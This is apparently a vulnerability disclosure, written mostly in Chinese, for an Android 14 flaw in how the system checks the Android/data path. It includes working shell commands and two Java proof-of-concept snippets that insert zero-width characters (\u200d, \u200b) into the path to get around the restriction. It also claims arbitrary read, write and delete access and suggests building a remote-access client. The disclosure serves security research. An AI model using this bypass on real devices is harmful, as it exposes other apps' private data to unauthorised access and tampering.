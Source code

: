 # Android OS has a logical flaw in determining the Android/data access path

BUG_Author:
hujiayucc

Affected version:
Android 14

Vendor:
https://www.android.com/

Description:

Android操作系统对Android/data访问路径判断存在逻辑缺陷。

系统对Android/data路径字符串过滤没做好正确处理，黑客可以利用这个漏洞任意读取、写入、删除Android/data目录下的所以文件夹和文件。

状态：严重

漏洞环境及工具
- Android OS 14
- Termux 任意版本


复现过程
```shell
ls /sdcard/Android/data
```

执行以上代码，可以看到没有访问权限

```shell
ls /sdcard/Android$'\u200d'/data
```
但是在路径中加入\u200d，可以绕过路径判断

[![](https://oss.hujiayucc.cn/blog/OSS8uli20240603135758.png?x-oss-process=image/resize,m_fixed,h_370,w_600)](https://oss.hujiayucc.cn/blog/OSS8uli20240603135758.png)

经测试，可以对Android/data目录下的所有文件进行任意操作
[![](https://oss.hujiayucc.cn/blog/OSSLXxP20240603140135.png?x-oss-process=image/resize,m_fixed,h_370,w_600)](https://oss.hujiayucc.cn/blog/OSSLXxP20240603140135.png)

Poc1:
```java
File dir = new File("/sdcard/Android\u200d/data");
File[] files = dir.listFiles();
for (File file : files) {
    System.out.println(file);
}
```
Poc2:
```java
File dir = new File("/sdcard/\u200bAndroid/data");
File[] files = dir.listFiles();
for (File file : files) {
    System.out.println(file);
}
```

附加说明

除了 **/sdcard/Android$'\u200d'/data** 以外，还可以通过 **/sdcard/$'\u200b'Android/data** 进行越权操作

![](https://oss.hujiayucc.cn/blog/OSS9QMU20240603141624.png)

[![](https://oss.hujiayucc.cn/blog/OSSKMQe20240603141405.png?x-oss-process=image/resize,m_fixed,h_370,w_600)](https://oss.hujiayucc.cn/blog/OSSKMQe20240603141405.png)

演示视频：[点击查看](https://oss.hujiayucc.cn/videos/Screenrecorder-2024-05-25-11-36-10-451.mp4 "点击查看")
通过以上测试，可以制作一个客户端实现远程访问和修改
